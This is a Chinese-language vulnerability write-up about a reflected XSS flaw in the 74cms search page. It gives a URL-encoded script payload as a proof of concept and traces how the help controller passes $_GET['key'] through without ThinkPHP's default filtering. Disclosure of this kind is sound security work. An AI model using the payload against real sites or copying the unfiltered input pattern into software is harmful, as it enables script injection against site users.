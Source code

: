 74cms前台搜索框存在反射型xss漏洞

地址：

```
http://localhost/index.php?m=&c=help&a=index
```

![image-20250325155738957](image/image-20250325155738957.png)

poc：

```
%3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

![image-20250325155932295](image/image-20250325155932295.png)



代码分析：

定位c=help ==》helpcontroller.class.php

方法为help_list

```
public function help_list(){
        $_GET['key'] = I('request.key','','trim');
        if (!M('Help')->autoCheckToken($_POST)){
            $this->error("验证错误！");
        }
        $this->display();
    }
```

这里仅仅是用到了trim完全不足以过滤，跟进I方法，这是ThinkPHP原生的方法类似于input

```
 if(''==$name) { // 获取全部变量
        $data       =   $input;
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                $filters    =   explode(',',$filters);
            }
```

存在过滤，跟进DEFAULT_FILTER，发现

![image-20250325165856215](image/image-20250325165856215.png)

全局默认是存在过滤方法

输入

```
<script>alert(1)</script>
```

被转义为

![image-20250325221604733](image/image-20250325221604733.png)

```
输入 %3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

直接则跳过了thinkphp的检测，直接通过$_GET['key']传入了

验证：

```
%3Cscript%3E alert(%2Fss%2F) %3C%2Fscript%3E
```

查看js

![image-20250325224605088](image/image-20250325224605088.png)

空格都没有被过滤

安全的流程--》用户输入--》(I函数过滤)thinkPHP默认检测--》安全

不安全的流程--》编码--》服务器解码--》$_GET直接访问

